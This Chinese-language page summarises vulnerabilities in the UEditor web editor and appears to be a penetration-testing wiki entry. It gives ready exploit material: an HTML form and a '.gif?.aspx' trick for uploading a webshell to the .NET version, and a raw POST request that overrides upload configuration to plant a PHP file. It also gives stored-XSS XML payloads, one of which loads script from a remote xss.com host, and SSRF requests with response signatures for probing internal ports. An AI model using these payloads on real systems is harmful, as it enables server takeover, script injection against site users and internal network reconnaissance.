





Ueditor 编辑器漏洞总结¶
漏洞描述¶
UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。
界面如下：

漏洞复现¶
0x01 文件读取漏洞¶
file 目录文件读取：
http://www.xxxx.com/net/controller.ashx?action=listfile
image 目录文件读取：
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
0x02 .net版本 任意文件上传¶
只适用于 .net 版本，存在于1.4.3.3、1.5.0和1.3.6版本中。
准备一台服务区存放图片马或者需要上传的文件，本地构造一个 html 页面用于上传使用
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">
<p>shell addr: <input type="text" name="source[]" /></p>
<input type="submit" value="Submit" />
</form>

shell addr处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为aspx
http://xxxx/1.gif?.aspx
- 成功上传返回上传路径，可直连 getshell

0x03 php版本文件上传¶
poc：
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—
shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
0x03 存储型xss¶
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
上传点：
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile
/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile
/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage
/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
将uploadimage类型改为uploadfile，修改文件后缀名为.xml：

上传成功，访问成功弹框：

一些常见的xml弹窗poc¶
弹窗xss：
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
url跳转：
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
远程加载js：
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
0x04 ssrf¶
该漏洞存在于1.4.3的jsp版本中，1.4.3.1版本已经修复。
该版本ueditor的ssrf触发点：
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
使用百度logo构造poc：
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
内网端口探测：
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
判断该地址对应的主机端口是否开放：
- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive
upfile=https://www.google.com/?%23.jpg